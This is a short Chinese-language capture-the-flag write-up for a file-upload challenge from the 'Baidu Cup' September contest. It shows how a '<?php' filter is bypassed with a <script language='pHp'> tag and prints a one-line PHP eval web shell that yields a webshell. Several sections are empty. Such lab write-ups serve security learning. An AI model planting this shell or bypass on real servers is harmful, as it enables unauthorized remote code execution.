




# Upload

## 题目描述
---
```
想怎么传就怎么传，就是这么任性。
tips:flag在flag.php中    
```

## 题目来源
---
“百度杯”CTF比赛 九月场

## 主要知识点
---


## 题目分值
---
50

## 部署方式
---


## 解题思路
---



随意上传文件，发现可以任意文件上传



发现php的文件的头不见了，想到使用`<script language="pHp">`来代替`<?php`绕过过滤。

```
<script language="pHp">@eval($_POST['a'])</script>
```



获取了webshell




## 参考
---
